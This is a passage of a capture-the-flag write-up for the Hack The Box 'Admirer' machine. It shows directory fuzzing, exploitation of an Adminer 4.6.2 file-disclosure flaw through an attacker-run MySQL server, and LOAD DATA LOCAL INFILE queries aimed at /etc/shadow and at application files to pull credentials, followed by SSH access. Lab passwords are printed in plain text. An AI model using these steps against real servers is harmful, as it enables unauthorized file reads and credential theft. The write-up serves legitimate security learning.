 Okay so I finally found something interesting. I used `ffuf -u http://$IP/utility_scripts/FUZZ -w /usr/share/dirb/wordlists/big.txt -e .php,.txt,.html`. This popped up that there is a file called `adminer.php`. This gives us a login page. I am not sure what the DB stuff means, but we can try and use the credentials we have found in hopes that we can use something. I tried using the credentials `waldo::Wh3r3_1s_w4ld0?` but didn't have any luck. However at the top of the page there is a version number: 4.6.2. This is not the most recent version so let's look up some exploits. Turns out that this version of adminer has a big file disclosure vulnerability. You can read about it [here](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability) and [here](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

I have been having a lot of trouble starting my `mysql` server on my machine. I wasn't able to connect for a while. However here is what I figured out.

Use the command `sudo service mysql start` to start the server. Next use the command `sudo mysql` to connect to the `mysql` shell. Now here goes a series of commands.

```
CREATE DATABASE admirer;
use admirer;
CREATE USER 'htb'@'%' IDENTIFIED BY 'hacker';
GRANT ALL PRIVILEGES ON * . * TO 'htb'@'%';
FLUSH PRIVILEGES;
CREATE TABLE test(data VARCHAR(255));
```

Now that we have user and it's privileges set we need to set the `bind-address` to 0.0.0.0 in `/etc/mysql/mariadb.conf.d/50-server.cnf`.

Now that this is all set we can connect to our server on the login page by filling out the following information.

```
Server: 10.10.14.22 (this your internal htb ip, find it on the Access page)
username: htb
password: hacker
database: adminer
```

Then boom we connect. We have come a long way to get this far! So close to user I can feel it. Now we need to try and exfiltrate the user's password. Let's investigate. We can enter SQL commands into this website. So based on the command suggested in the second article, we should be able to use `LOAD DATA LOCAL INFILE '/etc/shadow' INTO TABLE test`, looks like we are not allowed to view that file... surprise. Let's try using the query `LOAD DATA LOCAL INFILE '../index.php' INTO TABLE test` because that is where we found some credentials from the files we got via `ftp`. This is what we found:

```
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

If we try using these credentials to `ssh` into the machine they work! User success. Here is the hash that was on my machine `f0c71b0bad8032c9cf59393f1eb7d3e5`.

Now to try and escalate to root! Right off the bat I ran the command `sudo -l` to see what commands `waldo` could run. We can see that there is a script called `admin_tasks.sh` if we try and run it we get the same options that were on the web interface. I tried to create a password backup but was unable due to insufficient permissions.
